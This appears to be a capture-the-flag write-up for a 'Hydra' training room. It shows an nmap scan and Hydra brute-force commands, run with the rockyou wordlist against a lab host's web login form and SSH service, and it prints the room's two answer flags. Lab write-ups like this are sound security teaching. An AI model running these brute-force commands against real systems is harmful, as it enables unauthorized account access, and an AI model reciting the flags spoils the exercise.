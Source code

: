 # Hydra 

### [Task 2] 

#####  1. Use Hydra to bruteforce molly's web password. What is flag 1?



* Scan open ports
```nmap -sV -sS 10.10.166.155```

![nmap-scan](https://user-images.githubusercontent.com/62840507/128612421-d85ea0f6-64de-454c-ac84-dfb749fe4fa8.png)



* There is a website on port 80. Let's take a look at it. 

![Ekran Görüntüsü (2)](https://user-images.githubusercontent.com/62840507/128612567-faacea6f-38fc-46ab-9c91-991377fbd9d8.png)



* According ot the question the user name is molly and we now need to find her password with hydra.

``` hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.166.155 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V ```

![image](https://user-images.githubusercontent.com/62840507/128612618-53e8b508-20c2-47ac-80ea-1dfd8084c80b.png)



* Login with these credentials and you will find the flag.

**Flag1 :** THM{2673a7dd116de68e85c48ec0b1f2612e}




##### 2. Use Hydra to bruteforce molly's SSH password. What is flag 2?

* We need SSH password. Command I used

``` hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.166.155 ssh -t 4 ```

![image](https://user-images.githubusercontent.com/62840507/128612950-a4045c04-23ef-437c-8866-7140512b8bdb.png)



* Now that we have the SSH password, we can login in with those credentials.

```ssh molly@10.10.166.155```

![image](https://user-images.githubusercontent.com/62840507/128613063-397a5fde-6554-4a2c-9513-37d0569b3948.png)




**Flag2 :** THM{c8eeb0468febbadea859baeb33b2541b}


